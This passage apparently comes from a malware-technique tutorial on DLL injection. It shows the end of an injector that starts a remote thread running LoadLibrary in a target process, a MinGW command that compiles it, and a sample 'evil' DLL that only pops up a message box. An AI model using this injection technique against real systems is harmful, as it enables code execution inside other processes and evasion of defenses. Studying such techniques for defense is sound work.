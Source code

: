 ```cpp
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```

compile our `hack2.cpp`:
```bash
x86_64-w64-mingw32-gcc -O2 hack2.cpp -o hack2.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive >/dev/null 2>&1
```

![compile injector](/assets/images/9/2021-09-30_03-04.png){:class="img-responsive"}

"Evil" DLL is the same:    
```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow from evil.dll!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

